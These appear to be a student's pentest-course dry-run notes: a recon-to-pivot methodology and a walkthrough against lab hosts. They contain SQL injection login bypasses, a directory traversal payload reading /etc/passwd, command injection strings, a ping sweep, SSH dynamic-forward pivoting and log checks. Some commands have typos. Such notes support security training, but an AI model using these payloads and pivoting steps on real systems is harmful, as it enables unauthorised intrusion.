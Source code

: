 - Perform Reconnaissance
    1. Actively scan and interact with target to find potential attack vectors.
- Attempt Exploitation || Gain Initial Access
    1. Use information gained from reconnaissance to gain access to the system. Reconnaissance from other targets within the network may have information relevant to any target.
- Find Additional Targets
    1. Perform post-exploitation tasks (situational awareness, localhost enumeration, privilege escalation, etc).
    2. Discover additional targets through analysis of information from post-exploitation tasks.
- Pivot to Found Targets
    1. Pivot through network to other targets as you find them.

NOTES
    • 

***
***
***
## Instructor notes for DryRun

2 parts: 16 part 1. 15 part 2. Need 22 questions total to pass. 

Will kno wwhat box you're on because it will say it on the host name. So any questions with Linux 1 will be on the Linux 1 box. But be aware that that same box might have questions in multiple boxes (priv esc, recon, etc)

Questions will have between 3-5+ attempts 

start of boxes

## T1:
- nmap -Pn 10.50.26.76
- nmap -Pn 10.50.26.76 --scripts http-enum
- enumerate pages based on what aboce command finds 
- look through for scripts, it shoudl pop up with the creds user2:****password
- in username area do `tom' or 1=1#`
- or use dev console `10.50.20.191/login.php?username=tom' or 1='1&passwd=tom' or 1='1`
- this gives us that list of passwords and usernames again 
- command injection and directory traversal (**CHECK BOTH**)
    - directory traversal: `../../../../../../../../etc/passwd` this will give us username, home directory, and default shell
    - cmd injection: `;whoami` --> ssh key upload if this works
        - `;ls/var/www/html -la` to see if there are any other pages and enumerate the website
## BESTWEBAPP TRAVERSAL
- now actually get on box with `ssh user2@10.50.25.76 -D 9050` (through dynamic just incase it's needed)
- enumerate other networks: `cat /etc/hosts` gives us a new ip address 192.168.28.1181 WebApp
- scan that network with `for i in {1..255};do (ping -c 1 192.168.28.$i | grep "bytes from"&);done`
- check root web directory `ls -la /var/www/html/` to ensure website is fully enumerated
- no need to priv esc
- logging tho --> 
    - `ps -elf | grep rsyslog` --> `cat /etc/rsyslog.conf` or `cat /etc/ryslog.d/`
    - `cat /etc/crontab`
    - `cd /home`
- go back to scnnaing IP addresses
    - `proxyhcains nmap -Pn  192.168.28.181`
        - web and 22
            - `proxyhcains nmap -Pn  192.168.28.181 --scripts http-enum` because it has web
    - `proxyhcains nmap -Pn  192.168.28.172`
        - just ssh (22)
    - # ssh user2@ip -L 1111:NEED TO FIX from instructor
- firefox to 192.168.28.181 
- see that it has a table, so SQL Injection